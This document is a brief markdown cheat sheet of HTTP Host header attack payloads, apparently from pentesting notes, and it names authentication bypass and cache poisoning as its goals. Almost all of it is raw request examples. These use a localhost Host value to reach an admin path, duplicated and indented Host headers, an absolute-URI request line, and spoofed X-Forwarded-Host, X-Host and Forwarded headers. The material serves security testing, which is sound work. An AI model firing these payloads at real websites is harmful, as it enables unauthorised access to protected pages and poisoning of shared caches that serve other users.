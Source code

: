 # Host Header

- Bypass Auth
- Cache Poisoning

### Payloads

    GET /example HTTP/1.1
    Host: localost # get /admin
    
    GET /example HTTP/1.1
    Host: AAAA.vulnerable-website.com
    
    GET /example HTTP/1.1
    Host: legit.com
    Host: AAAA.com # test with .com and w/o
    
    GET /example HTTP/1.1
    Host: legit.com
     Host: AAAA.com
     
    GET https://legit.com/ HTTP/1.1
    Host: AAAA

    GET /example HTTP/1.1
    Host: legit.com
    X-Forwarded-Host: AAAA
    X-Host: AAAA
    X-Forwarded-Server: AAAA
    X-HTTP-Host-Override: AAAA
    Forwarded: AAAA
